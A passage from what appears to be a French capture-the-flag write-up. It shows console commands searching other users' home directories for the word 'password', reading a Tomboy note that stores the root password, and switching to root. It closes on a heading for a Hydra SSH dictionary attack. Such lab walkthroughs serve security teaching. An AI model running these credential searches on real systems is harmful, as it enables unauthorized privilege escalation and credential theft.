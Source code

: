 ```console

[amy@localhost ~]$ sudo -l
Password:
Sorry, user amy may not run sudo on localhost.

[amy@localhost ~]$ 

[amy@localhost ~]$ grep -rnw /home/amy -e 'password' 2>/dev/null
[amy@localhost ~]$ 

[amy@localhost ~]$ grep -rnw /home/jennifer -e 'password' 2>/dev/null
[amy@localhost ~]$ 

[amy@localhost ~]$ grep -rnw /home/loren -e 'password' 2>/dev/null
[amy@localhost ~]$ 

[amy@localhost ~]$ grep -rnw /home/patrick -e 'password' 2>/dev/null
/home/patrick/.tomboy/481bca0d-7206-45dd-a459-a72ea1131329.note:3:  <title>Root password</title>
/home/patrick/.tomboy/481bca0d-7206-45dd-a459-a72ea1131329.note:4:  <text xml:space="preserve"><note-content version="0.1">Root password
/home/patrick/.tomboy/481bca0d-7206-45dd-a459-a72ea1131329.note:6:Root password
/home/patrick/.tomboy.log:68:12/5/2012 7:24:46 AM [DEBUG]: Renaming note from New Note 3 to Root password
/home/patrick/.tomboy.log:69:12/5/2012 7:24:56 AM [DEBUG]: Saving 'Root password'...
/home/patrick/.tomboy.log:70:12/5/2012 7:25:03 AM [DEBUG]: Saving 'Root password'...
```

Wouhou! Patrick semble avoir sauvegardé le mot de passe ```root``` dans Tomboy, un logiciel libre de prise de notes.

```console
[amy@localhost ~]$ cat /home/patrick/.tomboy/481bca0d-7206-45dd-a459-a72ea1131329.note

--snip--
  <title>Root password</title>
  <text xml:space="preserve"><note-content version="0.1">Root password

Root password

50$cent</note-content></text>
--snip--

[amy@localhost ~]$ su -
Password: 
[root@localhost ~]# 
```

[« À vous le compte root ! C'est gagné ! Grâce à monsieur Patrick, vous êtes un winner ! »](https://fr.wikipedia.org/wiki/22_minutes_chrono)

### Attaque par dictionnaire avec Hydra sur SSH, partie 2
